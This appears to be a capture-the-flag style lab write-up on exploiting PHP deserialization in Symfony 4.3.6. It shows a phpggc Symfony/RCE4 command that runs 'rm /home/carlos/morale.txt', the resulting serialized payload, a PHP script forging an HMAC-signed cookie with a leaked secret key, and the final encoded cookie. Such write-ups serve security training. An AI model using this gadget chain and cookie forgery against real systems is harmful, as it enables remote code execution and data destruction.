








# Exploiting PHP deserialization with a pre-built gadget chain

## Lab Description :


## Solution :
Login as wiener & observe that the cookie is a PHP serialized object.



From the token we can see that the cookie is signed using HMAC-SHA1.

``{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ6eWt1aXpqdmcybzBiOTd2dWM1M214d2t0aG5xb2ozMSI7fQ==","sig_hmac_sha1":"2a64f65014ce2c5f34933dccc2da775dcf1355f4"}``

From the below screenshot we can see that upon changing the cookie value, the application throws a error response revealing **Symfony Version: 4.3.6**.





Performing a GET request to /cgi-bin/phpinfo.php reveals several key informations like - SECRET_KEY used for signing cookie is o98amn39pc65359ge8457oqy94sx4ish , Linux 28ed5e9f5b8 & other internal file information.



Since we know the Symfony version is 4.3.6, we can check for deserialisation vulnerabilities in that version using PHPGCC & create a malicious serialized payload.



Now since we know that we need to use Symfony/RCE4 gadget chain, we can create a payload to delete morale.txt file under carlos's home directory.

``./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt'``

```text
O:47:"Symfony\Component\Cache\Adapter\TagAwareAdapter":2:{s:57:"Symfony\Component\Cache\Adapter\TagAwareAdapterdeferred";a:1:{i:0;O:33:"Symfony\Component\Cache\CacheItem":2:{s:11:"*poolHash";i:1;s:12:"*innerItem";s:26:"rm /home/carlos/morale.txt";}}s:53:"Symfony\Component\Cache\Adapter\TagAwareAdapterpool";O:44:"Symfony\Component\Cache\Adapter\ProxyAdapter":2:{s:54:"Symfony\Component\Cache\Adapter\ProxyAdapterpoolHash";i:1;s:58:"Symfony\Component\Cache\Adapter\ProxyAdaptersetInnerItem";s:4:"exec";}}
```
Now since we observed that the cookie is signed, we too need to sign this payload generated by phpgcc. For that we can make use of the following script.
```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

Make sure to update the payload generated by phpgcc & secret_key

```
nano signing_script.php
```
                                                                                                                                                                                          
``php signing_script.php``

```text
%7B%22token%22%3A%22O%3A47%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapter%22%3A2%3A%7Bs%3A57%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapterdeferred%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A33%3A%22Symfony%5CComponent%5CCache%5CCacheItem%22%3A2%3A%7Bs%3A11%3A%22%2ApoolHash%22%3Bi%3A1%3Bs%3A12%3A%22%2AinnerItem%22%3Bs%3A26%3A%22rm+%2Fhome%2Fcarlos%2Fmorale.txt%22%3B%7D%7Ds%3A53%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapterpool%22%3BO%3A44%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdapter%22%3A2%3A%7Bs%3A54%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdapterpoolHash%22%3Bi%3A1%3Bs%3A58%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdaptersetInnerItem%22%3Bs%3A4%3A%22exec%22%3B%7D%7D%22%2C%22sig_hmac_sha1%22%3A%2282fdabbf5fa7c15a1f455057d72040e5426291dc%22%7D
```
Send the url-encoded token as cookie & observe that the server throws a error & at the same time executes the serialized payload & deletes the morale.txt file.



Thus the lab is solved.




#### Visit The Next Page For The Next Level :)
